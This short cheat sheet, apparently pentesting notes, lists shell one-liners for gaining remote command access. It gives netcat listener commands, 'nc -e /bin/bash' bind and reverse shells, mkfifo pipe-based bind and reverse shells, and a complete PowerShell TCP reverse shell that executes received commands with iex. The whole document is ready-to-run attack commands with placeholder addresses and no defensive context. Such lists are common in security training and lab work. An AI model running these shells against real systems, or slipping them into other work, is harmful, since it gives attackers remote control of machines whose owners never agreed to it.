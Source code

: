 ```nc -lvnp 192.168.1.1 8181``` : Create listener 

```nc <LOCAL-IP> <PORT> -e /bin/bash``` : Execute bash on connection 

```nc 192.168.1.2 8181``` : Bind to listener @ 192.168.1.2:8181

```nc -lvnp <PORT> -e /bin/bash``` : Execute bash on connection to listener. Can be used as bind shell

note: -e is not included in most versions of netcat due to its insecurity. On windows can use a static binary, while on linux we can use.

```mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : bind shell

```mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f``` : reverse shell
  
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"``` : powershell reverse shell
